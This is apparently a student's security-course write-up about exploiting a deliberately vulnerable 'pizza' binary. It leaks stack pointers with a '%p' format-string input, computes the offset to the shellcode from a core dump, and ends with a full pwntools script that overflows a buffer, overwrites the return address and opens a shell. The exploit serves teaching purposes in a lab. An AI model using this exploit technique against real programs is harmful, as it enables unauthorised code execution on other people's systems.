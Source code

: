 # Assignment 10
The goal of this assignment was to learn about control flow integrity and how to break it. I did this by using pwntools, a python library designed to exactly this. To do this we took a poorly made ,at least as far as security is concerned, program that allowed user to input data that wasn't properly checked. 

## Process
The first thing we had to do was determine what we could do to the program to break it. To do this I started off by just trying to over flow the buffers for input. There was 2 locations I was able to overflow and cause a segmentation fault, the name and the credit card input for the progam.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/3cd84b7c-498e-4497-8a8d-ffdba1d527b9)

So now we know we can input our shellcode into the input and overwrite return addresses to call the shellcode, but the hard part now is finding where to overwrite the return address and what address to overwrite it with. The way I did this was by getting the program to leak an address to the stack, this way I could find an offset and use that to get the code to run. This can be done in the pizza program by feeding it a string of `%p` because of the way the program was written. The pizza program uses something like sprintf, or printf in the code which allows us to use format specifiers in our string input. This is really bad practice because when you pass too many specifiers and not enough input you get undefined behavior which opens your program to attacks. Because of our format specifiers '%p' we can print what ever is on that stack as pointers to the screen, so we just print a few untill we see a pointer that leads to the stack.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/0dffaf51-392c-42f9-896f-64b95773e856)

Now that we've leaked pointers we just have to determine which one to use and create an offset. Because of randomize stack locations we cant hardcode a return address to our shellcode, because everytime the program runs it would be different. So we have to to find the offset from one of the leaked pointers. I did this by using the corefiles that the cpu dumps when it crashes, so all I had to do was crash the program, which we already discovered how to do. After crashing the program I used the core file and pwntools to open it and view pointers and the stack. I used the stackpointer at the time of the crash and printed the stack around that pointer to get a glimpse of the stack.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/ecbb3f33-2826-412b-a9cd-4b9c20f4746e)

In the image above you can see that I have already input the shellcode and crashed the program by following it with a bunch of A's. Using this glimpse into the stack we can determine 2 things: First, that the position of the stackpointer at the time of the crash is return address we want to replace. Second, we know where the adress of the shellcode is, so now we can calculate the offset.

To calculate the offset we just take the two stack address we found and subtract them from eachother. This will give us the number we need to add to the leaked address everytime we run the code and put into the return address. 
In this case we take:
    0x7ffe2c82e8e0
-   0x7ffe2c82e870
--------------------
    0x000000000070 => 112
So now we can but everything together and have the program leak addresses at runtime, and create the return address with the offset, then combine the the shellcode, a buffer of whatever, then finally the return address to the shellcode. Then we can run the program again and it will allow us to use the terminal.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/77026007-490a-4063-a853-4191e27e16fc)

## Code
~~~python3
from pwn import *

# A simple function that takes a core file and prints the stack, it prints the number entered as the total lines and prints the lines around where the stack pointer was when the program crashed.
def print_stack(core, num=20):
    rsp = core.rsp
    print("Stack")
    x = num//2
    for i in range(x, 1, -1):
        tmp = rsp + 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")

    print(f"{tmp:x}\t{core.read(rsp, 8)} <------- RSP")

    for i in range(1, x):
        tmp = rsp - 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")



#### MAIN ####

# Executable and Linkable Format
elf = ELF("./pizza")

# Set the context in pwn to machine settings
context(arch='amd64', os='linux', endian='little', word_size=64)

# Get the addresses to function names
# getname_address = elf.symbols["getname"]
# print(hex(getname_address))

# Loads in pwn's shell code as assembly
shellcode = asm(shellcraft.amd64.linux.sh())

# Prints shellcode as assembly
# print(shellcraft.amd64.linux.sh())

# Prints shellcode as hex
# print(shellcode.hex().upper())

# Start the target process we will be breaking into 
victim = process("./pizza")

# First input tricks the program into printing stack and other locations
input1 = b"%p %p %p %p %p %p %p %p %p %p"

# Get the first line of output
print(str(victim.recvline(), "latin-1"))

# Send our "name" aka "%p %p.."
victim.sendline(input1)

# Get the response and parse it into getting the stackpointer
line = str(victim.recvline(), "latin-1")
print(line)
# Subtract the offset to the start of our shellcode
addr = int(line.split(" ")[7], 16) - 112
# Create our second input, which will have the shellcode, then a bunch of garbage until the return adress to the shell code.
input2 = shellcode + b"A"*88 + addr.to_bytes(8, 'little')


line = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

# Send our shellcode 
victim.sendline(input2)

# Give the control back to us
# Now we have access to the computer as whoever ran ./pizza
victim.interactive()

victim.wait()

# This finds the corefile from a segfault and lets us parse it
# core = victim.corefile
# print_stack(core, 40)

# print(input2)
# print(disasm(core.read(core.rip,8))) # prints next instructions
exit()
~~~
